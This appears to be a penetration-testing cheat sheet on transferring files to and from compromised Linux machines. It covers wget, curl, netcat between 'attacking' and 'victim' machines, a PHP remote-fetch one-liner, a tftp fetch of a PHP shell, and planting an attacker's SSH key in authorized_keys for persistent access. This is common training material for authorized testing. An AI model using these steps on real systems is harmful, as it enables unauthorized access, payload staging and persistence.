 # Transferring Files on Linux

## Set Up a Simple Python Webserver

For the examples using `curl`  and `wget` we need to download from a web-server. This is an easy way to set up a web-server. This command will make the entire folder, from where you issue the command, available on port 9999.

```
python -m SimpleHTTPServer 9999
```

## Wget

You can download files using `wget` like this:

```
wget 192.168.1.102:9999/file.txt
```

## Curl

```
curl -O http://192.168.0.101/file.txt
```

## Netcat

Another easy way to transfer files is by using netcat.

If you can't have an interactive shell it might be risky to start listening on a port, since it could be that the attacking-machine is unable to connect. So you are left hanging and can't do `ctr-c` because that will kill your session.

So instead you can connect from the target machine like this.

On attacking machine:

```bash
nc -lvp 4444 < file
```

On target machine:

```bash
nc 192.168.1.102 4444 > file
```

You can of course also do it the risky way, the other way around:

So on the victim-machine we run `nc` like this:

```bash
nc -lvp 3333 > enum.sh
```

And on the attacking machine we send the file like this:

```bash
nc 192.168.1.103 < enum.sh
```

I have sometimes received this error:

```
This is nc from the netcat-openbsd package. An alternative nc is available
```

I have just run this command instead:

```
nc -l 1234 > file.sh
```


## With php

```
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## Ftp

If you have access to a ftp-client to can of course just use that. Remember, if you are uploading binaries you must use binary mode, otherwise the binary will become corrupted!!!

## Tftp

On some rare machine we do not have access to `nc` and `wget`, or `curl`. But we might have access to `tftp`. Some versions of `tftp` are run interactively, like this:

```
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can  do this trick:

```
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

### SSH - SCP (also in Auth -authorized_keys)

If you manage to upload a reverse-shell and get access to the machine you might be able to enter using ssh. Which might give you a better shell and more stability, and all the other features of SSH. Like transferring files.

So, in the `/home/user` directory you can find the hidden `.ssh` files by typing `ls -la`.
Then you need to do two things.

1. Create a new keypair

You do that with:

```
ssh-keygen -t rsa -C "your_email@example.com"
```

then you enter a name for the key.

Enter file in which to save the key (/root/.ssh/id_rsa): nameOfMyKey
Enter passphrase (empty for no passphrase):
Enter same passphrase again:

This will create two files, one called `nameOfMyKey` and another called `nameOfMyKey_pub`. The one with the `_pub` is of course your public key. And the other key is your private.

2. Add your public key to authorized_keys.

Now you copy the content of `nameOfMyKey_pub`.
On the compromised machine you go to `~/.ssh` and then run add the public key to the file authorized_keys. Like this

```bash
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQqlhJKYtL/r9655iwp5TiUM9Khp2DJtsJVW3t5qU765wR5Ni+ALEZYwqxHPNYS/kZ4Vdv..." > authorized_keys
```

3. Log in.

Now you should be all set to log in using your private key. Like this

```
ssh -i nameOfMyKey kim@192.168.1.103
```

### SCP

Now we can copy files to a machine using `scp`

```
# Copy a file:
scp /path/to/source/file.ext username@192.168.1.101:/path/to/destination/file.ext

# Copy a directory:
scp -r /path/to/source/dir username@192.168.1.101:/path/to/destination
```
